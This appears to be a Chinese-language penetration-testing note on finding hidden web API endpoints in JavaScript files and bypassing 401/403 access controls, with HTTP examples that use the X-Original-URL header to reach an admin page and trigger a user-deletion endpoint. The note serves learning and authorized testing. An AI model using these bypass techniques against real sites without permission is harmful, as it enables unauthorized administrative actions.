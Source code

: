 ## 1. 场景

- 一个完整的操作页面一般有增, 删, 改, 查功能的接口; 隐藏的接口可能存在未授权
- 无法登录的平台或者空白页

- 需要特定条件才能使用的功能, 如管理员权限


## 2. API 路径

### 2.1. 通用 API 查找

先使用 FindSmothing 查找 API 路径, 保存到本地后补全 BaseURL 和 ID

然后在 Burp 中拼接路径，使用所有协议跑一遍

放在 Open Multiple URLs 中手动访问

最后使用浏览器的控制台检索 JS 文件中的可能存在 API 调用的关键字

```
type:"POST"
type: "GET"
post("
get("
ashx?
ashx
url:
url:"
url:'
path:
path:"
path:'
action?
data
params
```

### 2.2. 根据当前业务的相似功能或历史数据包查找 API

遇到一个功能点没有找到隐藏接口

如某简历生成业务有保存，导出和上传功能

但是只找到了保存的 API `/v4/scrm/api/crowd/save` 

 那么可以尝试在 JS 文件中检索 `/v4/scrm/api/crowd` 

若没有则检索 `/scrm/api/crowd` 、`/api/crowd` 、`/crowd` 

> 检索时要加 `/` 在前没有就加在后面 `crowd/`
>
> 逐步缩小范围

找不到就猜，如检索 `/update` 、`/export` 

## 3. Bypass

HTTP Status Code 为 `200`, `401`, `403` 时可尝试 Bypass

### 3.1. 添加请求参数

无数据的情况下可在 Request Body 中添加请求参数

```http
GET /test?pageNo=1&pageSize=10 HTTP/2
Host: example.com


```

```http
POST /test HTTP/2
Host: example.com

pageNo=1&pageSize=10
```

```http
POST /test HTTP/2
Host: example.com

{
" pageNo" : 1,
"pageSize": 10,
}
```

### 3.3. X-Original-URL

访问管理员页面返回 `403` 

```http
GET /admin HTTP/2
Host: example.com


```

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8

"Access denied"
```

在 Request Header 中添加 `X-Original-URL` 字段访问主页返回 `404` 

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /invalid


```

```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8

"Not Found"
```

> 若返回 `200` 则证明 `X-Original-URL` 无效,
>
> 若返回 `404` 则证明 `X-Original-URL` 有效.

通过 `X-Original-URL` 访问管理员页面

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /admin


```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<a href="/admin/delete?username=carlos">Delete</a>
</html>
```

访问管理员页面中的 API

```http
GET ?username=carlos HTTP/2
Host: example.com
X-Original-URL: /admin/delete


```

```http
HTTP/2 302 Found
Location: /admin


```

---

References

- [Js在漏洞挖掘中的作用-接口篇](https://mp.weixin.qq.com/s/tN7bi0gybtNNuU_G1gyBRQ)
- [干货 | 渗透中403/401页面绕过的思路总结](https://www.secpulse.com/archives/185440.html)